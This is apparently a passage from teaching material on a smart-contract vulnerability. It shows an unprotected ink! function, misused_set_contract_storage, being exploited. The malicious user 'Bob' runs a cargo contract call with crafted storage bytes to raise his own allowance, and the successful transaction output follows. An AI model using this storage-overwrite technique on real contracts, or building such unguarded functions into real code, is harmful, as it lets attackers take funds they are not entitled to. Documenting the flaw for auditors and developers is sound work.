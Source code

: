 ```bash
         caller: 5GrwvaEF5zXb26Fz9rcQpDWS57CtERHpNehXCPcNoHGKutQY
         contract: 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf
       Event Balances ➜ Transfer
         from: 5GrwvaEF5zXb26Fz9rcQpDWS57CtERHpNehXCPcNoHGKutQY
         to: 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf
         amount: 100.08mUNIT
       Event Balances ➜ Reserved
         who: 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf
         amount: 100.08mUNIT
       Event TransactionPayment ➜ TransactionFeePaid
         who: 5GrwvaEF5zXb26Fz9rcQpDWS57CtERHpNehXCPcNoHGKutQY
         actual_fee: 98.974204μUNIT
         tip: 0UNIT
       Event System ➜ ExtrinsicSuccess
         dispatch_info: DispatchInfo { weight: Weight { ref_time: 3485758564, proof_size: 30498 }, class: Normal, pays_fee: Yes }
```

Let us assume Bob is a malicious user and he wants to set a higher allowance
for himself without Alice's approval. Taking a look at the smart contract, 
he notices that the function `misused_set_contract_storage()` has no access 
control validation and uses the `set_contract_storage()` function. Working on 
the input of this function, he could change the contract's storage and his 
allowance.

In order to do this, he runs the following command `cargo contract call --contract 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf --message MisusedSetContractStorage::misused_set_contract_storage --args [255,0,0,0,212,53,147,199,21,253,211,28,97,20,26,189,4,169,159,214,130,44,133,88,133,76,205,227,154,86,132,231,165,109,162,125,142,175,4,21,22,135,115,99,38,201,254,161,126,37,252,82,135,97,54,147,201,18,144,156,178,38,170,71,148,242,106,72] 1000000 --suri //Bob`.

```bash
$ cargo contract call --contract 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf --message MisusedSetContractStorage::misused_set_contract_storage --args [255,0,0,0,212,53,147,199,21,253,211,28,97,20,26,189,4,169,159,214,130,44,133,88,133,76,205,227,154,86,132,231,165,109,162,125,142,175,4,21,22,135,115,99,38,201,254,161,126,37,252,82,135,97,54,147,201,18,144,156,178,38,170,71,148,242,106,72] 1000000 --suri //Bob

 Dry-running MisusedSetContractStorage::misused_set_contract_storage (skip with --skip-dry-run)
    Success! Gas required estimated at Weight(ref_time: 7983333376, proof_size: 262144)
Confirm transaction details: (skip with --skip-confirm)
     Message MisusedSetContractStorage::misused_set_contract_storage
        Args [255,0,0,0,212,53,147,199,21,253,211,28,97,20,26,189,4,169,159,214,130,44,133,88,133,76,205,227,154,86,132,231,165,109,162,125,142,175,4,21,22,135,115,99,38,201,254,161,126,37,252,82,135,97,54,147,201,18,144,156,178,38,170,71,148,242,106,72] 1000000
   Gas limit Weight(ref_time: 7983333376, proof_size: 262144)
Submit? (Y/n): y
      Events
       Event Balances ➜ Withdraw
         who: 5FHneW46xGXgs5mUiveU4sbTyGBzmstUspZC92UhjJM694ty
         amount: 98.974241μUNIT
       Event Contracts ➜ Called
         caller: 5FHneW46xGXgs5mUiveU4sbTyGBzmstUspZC92UhjJM694ty
         contract: 5Gj5Z1Nf8NPkaP2iuBQhkJQRt1f7Nt7H2umwbrRRnonnKEQf
       Event TransactionPayment ➜ TransactionFeePaid
         who: 5FHneW46xGXgs5mUiveU4sbTyGBzmstUspZC92UhjJM694ty
         actual_fee: 98.974241μUNIT
         tip: 0UNIT
       Event System ➜ ExtrinsicSuccess
         dispatch_info: DispatchInfo { weight: Weight { ref_time: 2142080861, proof_size: 30498 }, class: Normal, pays_fee: Yes }
```
